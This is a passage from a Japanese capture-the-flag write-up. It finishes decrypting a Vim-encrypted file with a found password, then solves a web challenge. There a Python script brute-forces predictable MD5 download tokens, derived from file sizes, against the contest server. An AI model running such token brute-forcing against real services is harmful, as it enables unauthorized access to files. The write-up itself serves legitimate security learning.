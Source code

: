 `STRICTLY_CONFIDENTIAL` を抽出し、どのようなファイルか確認しましょう。

```
$ file STRICTLY_CONFIDENTIAL
STRICTLY_CONFIDENTIAL: Vim encrypted file data
```

Vim で暗号化されたファイルのようです。Vim で `STRICTLY_CONFIDENTIAL` を開き、`Horse Battery Staple Correct` というパスワードを入力すると `I_Should_Have_Used_Safer_Connection_...` という文字列が出力されました。

```
AFFCTF{I_Should_Have_Used_Safer_Connection_...}
```

## Web
### Download me ... (150)
> (URL)

与えられた URL にアクセスすると、以下のようにダウンロードできるファイルの一覧が出力されました。

```html
Download file:<pre><a href="download.php?file=file1.txt&token=6f2268bd1d3d3ebaabb04d6b5d099425">file1.txt</a><br /><a href="download.php?file=file2.txt&token=e6cb2a3c14431b55aa50c06529eaa21b">file2.txt</a><br /><a href="download.php?file=file3.txt&token=65658fde58ab3c2b6e5132a39fae7cb9">file3.txt</a><br /><a href="download.php?file=flag.txt&token=">flag.txt</a><br />
```

`flag.txt` のリンクにアクセスしましたが、`Invalid token.` と表示されてしまいます。他のファイルの `token` パラメータから `flag.txt` の `token` パラメータを推測必要がありそうです。

試しに `file1.txt` の `token` である `6f2268bd1d3d3ebaabb04d6b5d099425` でググってみると、これは `753` という文字列の MD5 ハッシュであることがわかりました。`file1.txt` をダウンロードしてみたところ、753 バイトのファイルがダウンロードされたので、どうやら `token` パラメータはファイルのサイズの MD5 ハッシュのようです。

雑に総当たりしましょう。

```python
import hashlib
import requests

i = 1
while True:
  h = hashlib.md5(str(i).encode()).hexdigest()
  r = requests.get('http://165.22.22.11:25632/download.php?file=flag.txt&token=' + h)
  if b'Invalid token.' not in r.content:
    print(i, r.content)
    break
  i += 1
```

```
$ python solve.py
34 b'AFFCTF{Pr3dic71bl3_t0k3n5_4r3_b4d}'
```

フラグが得られました。

```
AFFCTF{Pr3dic71bl3_t0k3n5_4r3_b4d}
```